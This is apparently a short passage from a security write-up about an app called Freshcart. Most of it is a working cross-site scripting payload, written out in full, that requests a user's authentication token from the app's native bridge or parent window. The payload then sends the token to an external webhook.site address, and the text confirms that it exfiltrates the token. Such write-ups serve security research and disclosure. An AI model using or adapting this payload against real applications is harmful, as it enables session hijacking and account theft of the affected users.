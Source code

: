 <br />

The one-liner payload

```javascript
<img src=x onerror="(function(){window.addEventListener('message',e=>{if(e&&e.data&&e.data.token){new Image().src='https://webhook.site/44c0-bd46-0d7a6a5280f9?token='+encodeURIComponent(e.data.token);console.log('sent to webhook');}else console.log('no token');},{once:true});(window.webkit&&window.webkit.messageHandlers&&window.webkit.messageHandlers.retrieveToken)?window.webkit.messageHandlers.retrieveToken.postMessage(null):window.parent.postMessage({action:'retrieveToken'},'*');})()">
```

<br /><br />



![](/assets/img/mhl/Freshcart/2.jpg)



<br /><br />

Submitting this payload causes the user’s authentication token to be exfiltrated to an attacker-controlled server.

<br /><br />

